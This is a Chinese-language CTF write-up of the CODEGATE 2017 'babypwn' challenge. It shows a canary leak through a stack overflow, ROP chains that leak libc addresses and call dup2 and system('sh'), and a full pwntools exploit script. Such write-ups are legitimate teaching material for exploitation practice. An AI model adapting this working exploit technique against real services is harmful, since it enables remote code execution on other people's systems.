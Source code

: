 title: '[CODEGATE CTF 2017] babypwn 50'
author: Naetw
tags:
  - pwn
  - CODEGATE CTF 2017
  - stack overflow
  - ROP
categories:
  - write-ups
date: 2017-02-11 10:38:40
---
## Info  
> Category: pwn  
> Point: 500->50   
> Solver: Naetw @ BambooFox   
> 這是這次比賽唯一解出的一題 Orz，最近 BambooFox 打比賽的人越來越少了，自己戰力也不足@@ 分析太慢經驗也太少...

## Analyzing

32 bit ELF, Partial RELRO, 有 canary & NX, 沒有 PIE

如同他的名字是一個蠻簡單的題目。有一個明顯的 stack overflow 漏洞，唯一比較麻煩的部分是 socket 的部分，因為這部分還沒學過，也就不多說。只是需要把 `fork` 出來的 file descriptor 接好。

程式主要功能在 `0x08048A71` function 裡，前面都在做 socket 的建置，如果要在 local 端測試的話，會先用 `ncat -vc ./babypwn -kl 127.0.0.1 4000` 架起來，看了一下 src，我們會先 `nc localhost 4000`，之後程式就會跑起來，並且把主要功能開在 port 8181，所以一旦 `nc localhost 4000` 過，之後測試就用 8181 這個 port 來測試就行了。

連上去之後，程式行為很簡單：

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

就是一個 echo server，第一直覺以為會是 format string，但是就是簡單的 echo 行為，不過在 echo 時，可以用 overflow 來 leak canary，後面才能利用 ROP 來做事。

**overflow**：

開 ida pro 來看
```
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

這邊很明顯的 overflow，buf 的開頭距離 ebp 有 52，但是卻可以 input 100 bytes，因此這邊先算好跟 canary 的 offset，然後把 buf 塞成以下樣子：

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```
上面的 `0x4409b50a` 就是 canary，不過因為 canary 的 first byte 都會是 '\x00'，因此這邊用 '\x0a' 也就是換行把它蓋著，才能接著把後面的值 dump 出來後，把 '\x0a' 換成 '\x00' => `0x4409b500` 就是這個 binary 的 canary。

這邊有了 canary 後就可以繞過 stack guard 的檢查，疊 ROP 來控制 eip 了，不過這邊還是沒辦法開 shell，因為 socket 的 file descriptor 跟 stdin & stdout 不同，所以我們會需要先用 `dup2` 來讓 stdin & stdout 跟 socket 的 file descriptor 接起來，之後就能開 interactive shell on socket server。

但是要用到 `dup2` 會需要 libc base，這邊我們先做第一次的 ROP，把 GOT entry 上的 libc function address leak 出來，之後利用 [libc database](http://libcdb.com) 來找出遠端 server 的 libc 版本，此外我們也要先把 file descriptor leak 出來。

因此這次 ROP 我們 payload 如下：

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

疊完之後，利用 choice 3 - exit 他會用 return 結束，就可以接到我們寫上去的 ROP gadgets 了。

這裡的 `socket_send` 用的是原本就寫好用來 echo input 的 function，`pop1` 則是利用 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 找到的一個 pop 一次後 ret 的 gadget，而 `echo_select` 則是上面提到的主要 function 的位址，因為 leak 玩東西之後我們要再做一次 ROP 來使用 `dup2` 以及開 shell。

這裡他會從 `sigemptyset_got` 開始 leak 很多 libc function，我拿前面四個到上面說的 libc database 查版本是可以查到的。

拿到 libc base 之後，直接在疊一次 ROP，這次 ROP 會用 `dup2` 把 stdin & stdout 跟 socket 的 fd 接起來，之後馬上開 shell：

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

再次利用 choice 3 來 return 到 ROP gadgets 上。

Final Exploit：
```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

ip = '127.0.0.1'
port = 8181
reip = '110.10.212.130'
report = 8888

r = remote(ip, port)
#r = remote(reip, report)

# Default address & libc setting
echo_select = 0x08048a71
socket_send = 0x080488b1
sigemptyset_got = 0x0804b048
fd = 0x0804b1b8
pop1 = 0x08048589
pop2 = 0x08048b84
bss_buf = 0x0804bfc0
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so')

def echo(payload):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.send(payload)

# Leak canary
echo('A' * 40 + '\n')
raw_input('#')
r.recvline()
canary = r.recv(3)
canary = u32('\x00' + canary)
log.info(hex(canary))

# Leak libc function address and File Descripter
rop1 = [socket_send, pop1, sigemptyset_got, socket_send, echo_select, fd]
payload = 'A'*40 + p32(canary) +'A'*12 + ''.join(map(p32, rop1))
echo(payload + '\n')
r.recvuntil('>') 
r.sendline('3') # Use exit to ret to rop
r.recv()
sig = u32(r.recv(4))
listen = u32(r.recv(4))
atoi = u32(r.recv(4))
r.recv()
fd = ord(r.recv(1))
log.info('sigemptyset : ' + hex(sig) + '\n' + 
        'listen : ' + hex(listen) + '\n' +
        'atoi : ' + hex(atoi) + '\n' +
        'fd : ' + hex(fd))
base = atoi - libc.symbols['atoi']
dup2 = base + libc.symbols['dup2']
system = 0x08048620
read = base + libc.symbols['read']
log.info('base : ' + hex(base))
sh = base + next(libc.search('sh\x00'))


# Duplicate fd and stdout & stdin(in order to use shell)
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 + p32(canary) + 'A'*12 + ''.join(map(p32, rop2))
echo(payload)

# Use exit to ret to rop2
sleep(0.1)
r.sendline('3')

r.interactive()
```


FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}

## Note

這次題目開了兩個 port，第一個 port 似乎太多人連...導致開 shell 不知道為啥開不起來，同樣的 payload 在第二個 port 十分順利＠＠
